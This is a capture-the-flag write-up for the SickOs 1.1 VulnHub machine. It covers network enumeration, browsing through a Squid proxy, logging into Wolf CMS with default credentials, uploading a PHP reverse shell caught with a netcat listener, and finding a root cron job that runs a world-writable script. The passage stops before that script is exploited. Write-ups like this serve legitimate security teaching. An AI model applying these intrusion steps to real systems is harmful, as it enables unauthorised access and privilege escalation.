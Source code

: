 # SickOs: 1.1

## 1.Get VM IP

```text
root㉿kali:~# arp-scan -I eth1 -l
                       
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.229 00:0c:29:25:b7:8a       VMware, Inc.
192.168.127.254 00:50:56:fd:64:8a       VMware, Inc.
```
The IP address is `192.168.127.229`, let's enumerate it.

## 2.Enumeration

```text
root㉿kali:~# nmap -sV -sC -p- -oN fullscan 192.168.127.229

Nmap scan report for 192.168.127.229
Host is up (0.00041s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 00:0C:29:25:B7:8A (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

port `3128` is for squid proxy and is open, so the system is using some kind of proxy here

and port 8080 is closed, maybe because of proxy.

so we need to proxy our traffic through squid to see if any website is available, go [here](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid) for details.

```text
root㉿kali:~# curl --proxy http://192.168.127.229:3128 http://192.168.127.229

<h1>
BLEHHH!!!
</h1>
```

yes, there is a website here, let's check for `robots.txt` :

```text
root㉿kali:~# curl --proxy http://192.168.127.229:3128 http://192.168.127.229/robots.txt

User-agent: *
Disallow: /
Dissalow: /wolfcms
```

the path `wolfcmd` is dissalowed here, i just set my firefox proxy to point to `192.168.127.229:3128` and visited the `/wolfcms` :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d1740ada-f57f-4b86-bed9-010d97eac250)

since this is a cms i quickly checked searchsploit for any exploit :

```text
searchsploit wolf cms  
----------------------------------------------------------------------------------
 Exploit Title                                          |  Path
----------------------------------------------------------------------------------
Wolf CMS - Arbitrary File Upload / Execution            | php/webapps/38000.txt
Wolf CMS 0.6.0b - Multiple Vulnerabilities              | php/webapps/15614.html
Wolf CMS 0.7.5 - Multiple Vulnerabilities               | php/webapps/18545.txt
Wolf CMS 0.8.2 - Arbitrary File Upload                  | php/webapps/36818.php
Wolf CMS 0.8.2 - Arbitrary File Upload (Metasploit)     | php/remote/40004.rb
Wolf CMS 0.8.3.1 - Remote Code Execution (RCE)          | php/webapps/51421.txt
----------------------------------------------------------------------------------
Shellcodes: No Results
```
i looked at one of [them](https://www.exploit-db.com/exploits/38000), and it mentioned a vulnerable URL there (http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/)

just manually visited the url and i was redirected to a login page (i did not know the exact path of admin page but i found it this way)

simply tried `admin:admin` and booom, i was in.

## 3.Gaining Shell

Looking at the result of the searchsploit for RCE [php/webapps/51421.txt](https://www.exploit-db.com/exploits/51421) i created a php reverse shell from pentestmonkey and put it

in `Files` menu and `Create new file` saved it and located it in `/public` :

![shell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/90440763-4b65-4ac5-a76f-18bc7133ef30)

open the `shell.php` and prepare a listener on your kali machine, you will get the shell.

```text
root㉿kali:~# nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.127.128] from (UNKNOWN) [192.168.127.229] 41750
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 22:03:28 up  2:01,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation

I navigated to `/var/www` and found a python file which is world writable :

```text
www-data@SickOs:/$ cd /var/www
www-data@SickOs:/var/www$ ls -l
total 16
-rwxrwxrwx 1 root root  319 Sep 19 20:55 connect.py
-rw-r--r-- 1 root root   21 Dec  5  2015 index.php
-rw-r--r-- 1 root root   45 Dec  5  2015 robots.txt
drwxr-xr-x 5 root root 4096 Dec  5  2015 wolfcms
```

and the content of the file is interesting :

```python
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

as it says here that does execute the program `frequently`, i guessed maybe there is a cronjob for it on the system

just check the cronjobs :

```text
www-data@SickOs:/var/www$ ls /etc/cron*
/etc/crontab

/etc/cron.d:
automate  php5

/etc/cron.daily:
apache2  apt       bsdmainutils  logrotate  mlocate  popularity-contest  update-notifier-common
apport   aptitude  dpkg          man-db     passwd   standard

/etc/cron.hourly:

/etc/cron.monthly:

/etc/cron.weekly:
apt-xapian-index  man-db
```

yes, there is a `automate` file in `cron.d` that executes the connect.py

```text
www-data@SickOs:/var/www$ cat /etc/cron.d/automate 

* * * * * root /usr/bin/python /var/www/connect.py
```










